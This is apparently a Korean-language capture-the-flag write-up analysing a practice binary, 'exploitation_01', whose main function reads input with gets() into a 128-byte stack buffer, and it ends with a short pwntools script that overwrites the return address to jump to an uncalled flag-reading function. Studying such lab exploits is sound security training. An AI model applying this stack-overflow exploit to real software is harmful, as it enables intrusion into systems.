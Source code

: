 - `0x8048679` 주소 분석: **0x8048679: "cat flag"**
- `system` 함수 호출 → `cat flag` 실행 유추

## 결론

### 구조 분석

- `main` 함수에서 **입력 길이 제한이 없는 `gets()`** 함수 사용

- `gets()` 함수의 인자인 `buf` 변수는 **0x80(128 바이트)** 크기의 스택 버퍼

- 따라서 **128 바이트를 초과하는 입력 시, `saved EBP`와 `eip`까지 덮을 수 있는 심각한 버퍼 오버플로우(Buffer Overflow) 취약점** 존재

- `info functions` 명령어로 심볼 테이블 확인한 결과,
**`main()`에서 호출되지 않는 의심스러운 함수(read_flag 등)** 존재

### 분석 환경

- Ubuntu 16.04
- Arch:     i386-32-little
- RELRO:    No RELRO
- Stack:    No canary found
- NX:       NX enabled
- PIE:      No PIE (0x8048000)

### 파이썬 스크립트

```python
from pwn import *

p = process("./exploitation_01")

payload = b'A' * 0x80 + b'B' * 4 + p32(0x080485bc)

p.sendline(payload)
p.interactive()
```


